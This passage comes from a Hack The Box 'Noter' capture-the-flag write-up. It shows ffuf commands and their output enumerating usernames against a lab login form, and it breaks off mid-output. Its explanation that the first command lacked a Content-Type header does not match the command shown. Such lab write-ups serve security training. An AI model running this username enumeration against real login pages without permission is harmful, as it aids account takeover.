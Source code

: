 ```
invalid
user
```
This word list has both valid user and invalid users and it was named as `users.txt`

**ffuf bruteforcing**
```

┌──(egovridc㉿egovridc)-[~/C7F5/htb/noter]
└─$ ffuf -u http://10.10.11.160:5000/login -d 'username=FUZZ&password=1234' -w users.txt -H 'Content-Type: application/x-www-form-urlencoded'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.11.160:5000/login
 :: Wordlist         : FUZZ: users.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=1234
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

invalid                 [Status: 200, Size: 2035, Words: 432, Lines: 69, Duration: 182ms]
soraely                 [Status: 200, Size: 2035, Words: 432, Lines: 69, Duration: 180ms]
julius                  [Status: 200, Size: 2034, Words: 432, Lines: 69, Duration: 187ms]
gemstone                [Status: 200, Size: 2036, Words: 432, Lines: 69, Duration: 414ms]
gems                    [Status: 200, Size: 2032, Words: 432, Lines: 69, Duration: 411ms]
user                    [Status: 200, Size: 2032, Words: 432, Lines: 69, Duration: 193ms]
                        [Status: 200, Size: 2028, Words: 432, Lines: 69, Duration: 191ms]
:: Progress: [7/7] :: Job [1/1] :: 55 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```
This will not respond because `ffuf` does not add `Content-Type` header by default then lets add it.

```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/noter]
└─$ ffuf -u http://10.10.11.160:5000/login -d 'username=FUZZ&password=1234' -H 'Content-Type: application/x-www-form-urlencoded' -w users.txt -mr 'Invalid login'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.11.160:5000/login
 :: Wordlist         : FUZZ: users.txt
```